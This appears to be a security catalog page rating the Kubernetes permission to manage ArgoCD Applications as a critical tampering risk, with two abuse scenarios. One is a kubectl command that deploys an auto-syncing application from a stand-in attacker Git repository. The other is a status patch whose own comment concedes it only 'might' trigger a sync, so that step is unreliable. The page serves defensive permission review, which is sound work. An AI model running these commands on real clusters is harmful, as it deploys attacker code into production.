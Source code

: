 ```yaml
---
id: 1063
title: "Manage ArgoCD Applications (argoproj.io)"
description: "Grants permission to manage ArgoCD Application resources. This allows deploying, modifying, or deleting applications managed by ArgoCD, potentially leading to the deployment of malicious workloads, unauthorized code execution, tampering with production systems, and privilege escalation if ArgoCD has high privileges."
category: Tampering
risk_level: RiskLevelCritical
date: ""
---
```


## Overview

| Field                   | Value                                                                                                                           |
| ----------------------- | ------------------------------------------------------------------------------------------------------------------------------- |
| ID                      | 1063                                                                                                                            |
| Name                    | Manage ArgoCD Applications (argoproj.io)                                                                                        |
| Risk Category           | Tampering                                                                                                                       |
| Risk Level              | {{< risk Critical >}}                                                                                                           |
| Role Type               | Role                                                                                                                            |
| API Groups              | argoproj.io                                                                                                                     |
| Resources               | applications                                                                                                                    |
| Risky Verb Combinations | [create] · [update] · [patch] · [delete] · [sync]                                                                               |
| Tags                    | {{< tag "CodeExecution" >}} {{< tag "PotentialPrivilegeEscalation" >}} {{< tag "Tampering" >}} {{< tag "WorkloadDeployment" >}} |

## Description

Grants permission to manage ArgoCD Application resources. This allows deploying, modifying, or deleting applications managed by ArgoCD, potentially leading to the deployment of malicious workloads, unauthorized code execution, tampering with production systems, and privilege escalation if ArgoCD has high privileges.

## Abuse Scenarios

1. Create a new ArgoCD Application pointing to a malicious Git repository.

```bash
kubectl create -n <namespace> -f - <<EOF
apiVersion: argoproj.io/v1alpha1
kind: Application
metadata:
  name: malicious-app
spec:
  destination:
    namespace: <target-namespace>
    server: https://kubernetes.default.svc
  project: default
  source:
    repoURL: https://github.com/attacker/malicious-manifests.git
    targetRevision: HEAD
    path: .
  syncPolicy:
    automated:
      prune: true
      selfHeal: true
EOF
# Example: kubectl create -n argocd -f - <<EOF ... EOF

```

2. Force synchronization of an ArgoCD Application to deploy changes immediately.

```bash
kubectl patch application <application-name> -n <namespace> --type='merge' -p='{"status": {"operationState": {"phase": "Running", "syncResult": {"resources": []}}}}'
# Note: Direct 'sync' verb via kubectl is not standard. This patch might trigger a sync.
# A more direct way is using the ArgoCD CLI: `argocd app sync <application-name> -n <namespace>`
# Example: kubectl patch application my-app -n argocd --type='merge' -p='{"status": {"operationState": {"phase": "Running", "syncResult": {"resources": []}}}}'

```
